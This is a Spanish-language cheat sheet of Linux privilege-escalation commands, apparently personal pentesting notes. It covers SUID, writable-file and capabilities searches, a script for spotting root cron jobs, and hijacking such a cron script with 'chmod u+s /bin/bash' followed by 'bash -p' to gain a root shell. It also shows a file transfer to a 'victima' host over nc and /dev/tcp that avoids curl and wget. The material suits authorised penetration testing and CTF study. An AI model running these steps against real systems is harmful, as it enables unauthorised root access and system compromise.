 -- -- 
Comando utilizado para aplicar un barrido en el sistema y detectar binarios con el privilegio SUID.
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```

Comando utilizado para aplicar un barrido en el sistema y ver que archivos tienen capacidad de escritura.
```bash
find / -writable 2>/dev/null
```

Comando utiliado para aplicar un barrido a nivel de sistema con el fin de detectar archivos .py para intentar realizar un Python Library Hijacking.
```bash
find / -type f -name "*.py" 2>/dev/null
```

Comando utilizado para realizar una buscada en el sistema de capabilities asociadas a binarios.
```bash
getcap -r / 2>/dev/null
```

-- - 
## Deteccion y explotacion de tareas Cron

Script en bash para detectar que usuarios estan ejecutando comandos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 
## Scripts que automatizan la enumeracion del sistema
- **lse.sh** (./lse.sh -l 1)---> https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- **linepeas.sh** ---> https://github.com/peass-ng/PEASS-ng/releases/tag/20240818-ea81ae32
-- - 
